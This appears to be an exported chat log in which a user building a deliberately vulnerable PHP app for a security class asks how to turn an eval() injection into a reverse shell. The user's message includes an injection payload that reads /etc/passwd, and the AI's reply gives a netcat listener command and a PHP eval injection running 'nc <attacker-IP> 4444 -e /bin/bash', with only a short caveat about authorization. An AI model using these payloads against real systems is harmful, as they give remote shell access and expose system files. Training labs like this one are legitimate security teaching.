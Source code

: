 **You:**

i am writing a purposefully vulnerable web app for a cybersecurity class. in this class we are learning how to exploit web applications so that we know how to better secure them in the future. in my web app i am able to execute shell commands by exploiting an insecure use of the eval() php method. 

i use this user input to execute my shell commands. 

0; $result=shell_exec('cat /etc/passwd'); //

how could i go about establishing a reverse proxy? is there a way to do it without having to use meterpreter? can i just use netcat?

------------------

**ChatGPT:**

Creating a purposefully vulnerable web application for educational purposes is a great way to learn about security. When dealing with reverse shells and reverse proxies, it's important to distinguish between the two:


- A **reverse shell** is a shell session established on a connection that is initiated from a remote machine, not from the local host. Attackers use reverse shells to obfuscate their location and the direction of the connection (since most firewalls allow outgoing connections).
- A **reverse proxy** is a type of proxy server that retrieves resources on behalf of a client from one or more servers. These resources are then returned to the client as if they originated from the proxy server itself.

If you want to establish a reverse shell using Netcat without relying on Meterpreter or other advanced tools, you can certainly do so. Here’s a basic example of how to establish a reverse shell with Netcat:


- **On the attacker's machine**: Set up Netcat to listen on a chosen port. This machine must be reachable by the server where the vulnerable web app is hosted.

```sh<button class="flex ml-auto gizmo:ml-0 gap-2 items-center"><svg stroke="currentColor" fill="none" stroke-width="2" viewBox="0 0 24 24" stroke-linecap="round" stroke-linejoin="round" class="icon-sm" height="1em" width="1em" xmlns="http://www.w3.org/2000/svg"><path d="M16 4h2a2 2 0 0 1 2 2v14a2 2 0 0 1-2 2H6a2 2 0 0 1-2-2V6a2 2 0 0 1 2-2h2"></path><rect x="8" y="2" width="8" height="4" rx="1" ry="1"></rect></svg>Copy code</button>
nc -lvp 4444

```
Here, `-l` tells Netcat to listen for incoming connections, `-v` is for verbose, `-p` specifies the port to listen on, and `4444` is the chosen port.


- **On the vulnerable web app server**: Use the exploited `eval()` function to execute a reverse shell command with Netcat.

Since you have control over the server's command execution through the `eval()` function, you can insert a command like this:

```php<button class="flex ml-auto gizmo:ml-0 gap-2 items-center"><svg stroke="currentColor" fill="none" stroke-width="2" viewBox="0 0 24 24" stroke-linecap="round" stroke-linejoin="round" class="icon-sm" height="1em" width="1em" xmlns="http://www.w3.org/2000/svg"><path d="M16 4h2a2 2 0 0 1 2 2v14a2 2 0 0 1-2 2H6a2 2 0 0 1-2-2V6a2 2 0 0 1 2-2h2"></path><rect x="8" y="2" width="8" height="4" rx="1" ry="1"></rect></svg>Copy code</button>
0; $result=shell_exec('nc <attacker-IP> 4444 -e /bin/bash'); //

```
Replace `<attacker-IP>` with the actual IP address of your attacker's machine. The `-e` option tells Netcat to execute `/bin/bash` or `/bin/sh` which then connects back to the listener you set up on the attacker's machine.

**Please note**: The `-e` option may not be available on all systems due to its potential for abuse. Also, this operation should be conducted in a controlled environment, as it can be considered illegal and unethical if done without proper authorization.
